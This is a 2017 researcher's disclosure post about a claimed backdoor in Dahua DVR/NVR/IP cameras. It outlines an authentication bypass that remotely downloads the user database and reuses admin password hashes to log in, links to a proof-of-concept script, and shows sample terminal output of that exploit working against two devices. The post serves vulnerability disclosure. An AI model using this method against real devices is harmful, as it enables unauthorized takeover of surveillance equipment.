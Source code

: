 Some tools (feedback / bug reports are appreciated)

2017-05-03

Public rerelease of Dahua Backdoor PoC
https://github.com/mcw0/PoC/blob/master/dahua-backdoor-PoC.py

2017-03-20

With my newfound knowledge of vulnerable devices out there with an unbelievable number of more than 1 million Dahua / OEM units, where knowledge comes from a report made by NSFOCUS and my own research on shodan.io.

With this knowledge, I will not release the Python PoC to the public as before said of April 5, as it is not necessary when the PoC has already been verified by IPVM and other independent security researchers.

However, I'm open to share the PoC with serious security researchers if so desired, please e-mail me off list and be clear about who you are so I do not take you for a beggar, which I ignore.

NSFOCUS report: http://blog.nsfocus.net/dahua-cameras-unauthorized-access-vulnerability-technical-analysis-solution/

/bashis


[STX]

I'm speechless, and almost don't know what I should write... I (hardly) can't believe what I have just found.

I have just discovered (to what I strongly believe is backdoor) in Dahua DVR/NVR/IPC and possible all their clones.

Since I am convinced this is a backdoor, I have my own policy to NOT notify the vendor before the community.
(I simply don't want to listen on their poor excuses, their tryings to keep me silent for informing the community)

In short:
You can delete/add/change name on the admin users, you change password on the admin users - this backdoor simply don't care about that!
It uses whatever names and passwords you configuring - by simply downloading the full user database and use your own credentials!

This is so simple as:
1. Remotely download the full user database with all credentials and permissions
2. Choose whatever admin user, copy the login names and password hashes
3. Use them as source to remotely login to the Dahua devices

This is like a damn Hollywood hack, click on one button and you are in...


Below PoC you will find here: https://github.com/mcw0/PoC/dahua-backdoor.py
Update:
Dahua has requested me to temporally remove the PoC code, will be back here again 5th April. (30 days)
/Sorry, bashis

Please have understanding of the quick hack of the PoC, I'm sure it could be done better.

Have a nice day
/bashis

$ ./dahua-backdoor.py --rhost 192.168.5.2

[*] [Dahua backdoor Generation 2 & 3 (2017 bashis <mcw noemail eu>)]

[i] Remote target IP: 192.168.5.2
[i] Remote target PORT: 80
[>] Checking for backdoor version
[<] 200 OK
[!] Generation 2 found
[i] Chosing Admin Login: 888888, PWD hash: 4WzwxXxM
[>] Requesting our session ID
[<] 200 OK
[>] Logging in
[<] 200 OK
{ "id" : 10000, "params" : null, "result" : true, "session" : 100385023 }

[>] Logging out
[<] 200 OK

[*] All done...
$

$ ./dahua-backdoor.py --rhost 192.168.5.3

[*] [Dahua backdoor Generation 2 & 3 (2017 bashis <mcw noemail eu>)]

[i] Remote target IP: 192.168.5.3
[i] Remote target PORT: 80
[>] Checking for backdoor version
[<] 200 OK
[!] Generation 3 Found
[i] Choosing Admin Login: admin, Auth: 27
[>] Requesting our session ID
[<] 200 OK
[i] Downloaded MD5 hash: 94DB0778856B11C0D0F5455CCC0CE074
[i] Random value to encrypt with: 1958557123
[i] Built password: admin:1958557123:94DB0778856B11C0D0F5455CCC0CE074
[i] MD5 generated password: 2A5F4F7E1BB6F0EA6381E4595651A79E
[>] Logging in
[<] 200 OK
{ "id" : 10000, "params" : null, "result" : true, "session" : 1175887285 }

[>] Logging out
[<] 200 OK

[*] All done...
$

[ETX]
